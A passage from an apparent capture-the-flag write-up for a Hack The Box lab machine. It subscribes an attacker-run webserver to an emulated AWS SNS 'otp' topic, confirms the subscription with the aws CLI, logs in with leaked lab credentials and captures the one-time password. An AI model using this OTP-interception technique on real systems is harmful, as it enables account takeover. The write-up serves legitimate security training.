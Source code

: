 ```
x-amz-sns-subscription-arn: arn:aws:sns:us-east-2:000000000000:otp:9eac8610-000d-48b1-af96-4cc4aeeca4d0
Content-Length: 831

Body:
{"Type": "SubscriptionConfirmation", "MessageId": "136464bf-9c9e-46a5-939e-7031230e70e9", "TopicArn": "arn:aws:sns:us-east-2:000000000000:otp", "Message": "You have chosen to
subscribe to the topic arn:aws:sns:us-east-2:000000000000:otp.\nTo confirm the subscription, visit the SubscribeURL included in this message.", "Timestamp":
"2022-07-15T15:52:40.437Z", "SignatureVersion": "1", "Signature": "EXAMPLEpH+..", "SigningCertURL":
"https://sns.us-east-1.amazonaws.com/SimpleNotificationService-0000000000000000000000.pem", "SubscribeURL":
"http://localhost:4566/?Action=ConfirmSubscription&TopicArn=arn:aws:sns:us-east-2:000000000000:otp&Token=caa5fc57", "Token": "caa5fc57", "UnsubscribeURL":
"http://localhost:4566/?Action=Unsubscribe&SubscriptionArn=arn:aws:sns:us-east-2:000000000000:otp:9eac8610-000d-48b1-af96-4cc4aeeca4d0"}
```

Using that `caa5fc57` token:
```
$ aws --endpoint-url=http://cloud.htb sns confirm-subscription --topic-arn arn:aws:sns:us-east-2:000000000000:otp --token caa5fc57 
```

Finally, we can login with the credentials we found earlier:
```
marcus
dFc42BvUs02
```
And wait our Python webserver receive the OTP:

```
Body:
{"Type": "Notification", "MessageId": "e7a4e545-077e-401c-acd7-37b7c8a62ca3", "TopicArn": "arn:aws:sns:us-east-2:000000000000:otp", "Message": "{\"otp\": \"82786380\"}",
"Timestamp": "2022-07-15T15:54:13.468Z", "SignatureVersion": "1", "Signature": "EXAMPLEpH+..", "SigningCertURL":
"https://sns.us-east-1.amazonaws.com/SimpleNotificationService-0000000000000000000000.pem", "UnsubscribeURL":
"http://localhost:4566/?Action=Unsubscribe&SubscriptionArn=arn:aws:sns:us-east-2:000000000000:otp:9eac8610-000d-48b1-af96-4cc4aeeca4d0"}
```

Sweet!
